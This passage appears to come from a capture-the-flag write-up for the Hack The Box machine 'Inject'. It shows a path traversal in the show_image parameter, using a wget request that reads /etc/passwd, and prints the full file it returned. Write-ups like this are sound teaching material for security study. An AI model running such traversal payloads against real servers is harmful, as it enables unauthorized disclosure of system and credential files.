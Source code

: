 * /register -> under construction
* /blog -> just dummy entries
* /upload -> here there might be something :flag:

Images can be uploaded (small images only), and the result can be seen in http://inject.htb:8080/show_image?img=image.jpg

![uploading images](/i/2023-03-20_14-56.png)

I've spent some time trying to inject something while uploading the image but after reading forums I've realized that it is about how the upload image is presented to you, that is injectable:

```bash
~x» wget -q 'http://inject.htb:8080/show_image?img=../../../../../../../etc/passwd' -O -
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```
